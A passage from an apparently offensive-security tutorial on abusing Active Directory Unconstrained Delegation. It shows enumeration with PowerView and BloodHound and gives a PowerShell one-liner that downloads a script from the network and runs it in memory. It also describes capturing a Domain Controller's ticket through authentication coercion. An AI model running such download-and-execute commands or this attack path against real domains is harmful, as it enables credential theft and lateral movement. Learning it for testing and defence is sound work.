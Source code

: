 ## Exploitation

### Enumeration

The easiest ways to enumerate Unconstrained Delegation are via:

- PowerView ([https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1))
- BloodHound ([https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound))

#### PowerView

PowerView is powerfull tool designed for Active Directory enumeration. It has built-in modules for analyzing delegation permissions across domain users and machine accounts.

To find Unconstrained Delegation entities, it is enough to:

1. Import it

`iex(new-object net.webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')`

2. Scan for Unconstrained Delegation:

`Get-DomainComputer -Unconstrained`

![Finding machines marked for Unconstrained Delegation](get-domaincomputer.png)

Finding machines marked for Unconstrained Delegation

The following output reveals 2 machines that have Unrestricted Delegation enabled. This means:

1. Any user connecting via any service on any of the mentioned machines will have his TGT saved inside the memory of the corresponding machine.
2. Since both of them are marked as Unrestricted Delegation, if you have access to one of them, you could most likely laterally move to any other machine if you can coerce its authentication.
!!!
Since the TGT is automatically saved to the targeted computer via any form of authentication, we can capture the TGT for the Domain Controller by performing authentication coercion.
!!!

#### BloodHound

It is also possible to find computer accounts marked for Unconstrained Delegation via BloodHound. I am not going to dive deep into how BloodHound operates, but in a nutshell:

When you import the collected data from the Active Directory into BloodHound, you can use the following option for finding accounts allowed for Unconstrained Delegation:
